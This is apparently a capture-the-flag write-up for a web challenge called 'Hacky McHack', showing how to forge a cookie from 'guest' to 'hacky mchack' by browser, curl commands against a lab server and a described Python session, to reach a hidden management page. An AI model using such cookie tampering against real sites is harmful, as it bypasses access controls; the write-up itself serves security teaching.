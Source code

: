 # Chef Hacky McHack

We'll solve this task in 3 ways: from the browser, from the CLI and using Python.
That good we are!

## Virgin: From the Browser

We visit to the URL, open the Developer Tools and go over to the "Storage" tab.
There we see the server has given ass the cookie `u=guest`.

![Hacky McHack - Initial Cookie](../../media/hacky-mchack-cookies.png)

Since the challenge is called "Hacky McHack" we set the cookie value to `hacky mchack`.
We notice a new tab has appeared at the top of the page or by inspecting the HTML source: **Manage** (`/manage.php`).
We click on it and get the flag.

```html
<ul class="nav-menu list-unstyled">
    <li><a href="index.php" class="smoothScroll">Home</a></li>
    <li><a href="#about" class="smoothScroll">About</a></li>
    <li><a href="#portfolio" class="smoothScroll">Portfolio</a></li>
    <li><a href="#journal" class="smoothScroll">Blog</a></li>
    <li><a href="#contact" class="smoothScroll">Contact</a></li>
        <li><a href="manage.php" class="smoothScroll">Manage</a></li>
    </ul>
```

## Chad v1: From the CLI

We use our good friend `curl`.
First, we save the cookies from the initial page into a cookie jar.

```console
root@kali:~# curl -c cookies.txt http://141.85.224.70:8010
[...]

root@kali:~# cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

http://141.85.224.70:8010 FALSE / FALSE 1656864260 u guest
```

Now we edit the file and replace `guest` with `hacky mchack` and send a `GET` request to `/manage.php`.

```console
root@kali:~# sed -i s/guest/hacky\ mchack/ cookies.txt

root@kali:~# curl -b cookies.txt http://141.85.224.70:8010/manage.php
```

If we didn't want to use the cookie jar, we could have simply looked at the headers sent by the server then sent the cookie "manually":

```console
root@kali:~# curl -v http://141.85.224.70:8010 > /dev/null  # we don't care about the output
[...]
< HTTP/1.1 200 OK
< Date: Sun, 03 Jul 2022 16:10:51 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.34
< Set-Cookie: u=guest; expires=Sun, 03-Jul-2022 16:11:51 GMT; Max-Age=60

root@kali:~# curl -b 'u=hacky mchack' $URL/manage.php  # Notice the Set-Cookie field above
<here we get the flag>
```

## Chad v2: From Python

Simply create a `Session` object, set the cookie `u` to `hacky mchack`, then send a `GET` request to the `/manage.php` endpoint.
